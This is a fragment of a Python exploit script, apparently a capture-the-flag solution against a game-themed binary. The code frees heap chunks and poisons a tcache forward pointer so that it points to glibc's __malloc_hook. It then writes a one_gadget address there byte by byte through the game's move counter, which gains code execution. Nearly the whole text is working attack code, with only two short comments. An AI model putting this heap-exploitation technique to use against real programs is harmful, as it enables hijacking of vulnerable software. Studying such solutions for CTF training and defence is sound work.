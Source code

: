 ```python
    malloc_hook = libc.symbols["__malloc_hook"]
    gadget = libc.address + [0xe6c7e, 0xe6c81, 0xe6c84][1]

    add(0)
    add(1)
    move_y(3, 7, 9, 7)
    while mov_count < 0xa1:
        move_bishop(2)
    smite(3, 9, 7)

    free(1)
    free(0)
    free(4)

    for i in range(6):
        move_x(0, i, 6, 0)

    #Overwrite tcache fd to malloc_hook
    vals = getvals(malloc_hook)

    for idx, i in enumerate(vals):
        count = int("0x"+hex(mov_count)[-2:], 16)
        if count < i:
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)
        else:
            while count != 0:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)

    add(1)
    add(0)

    for i in range(8):
        move_x(0, i, 6, 0)
    
    #Overwrite malloc_hook to one_gadget
    vals = getvals(gadget)

    for idx, i in enumerate(vals):
        count = int("0x"+hex(mov_count)[-2:], 16)
        if count < i:
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)
        else:
            while count != 0:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)

    while count != 0:
        move_bishop(2)
```
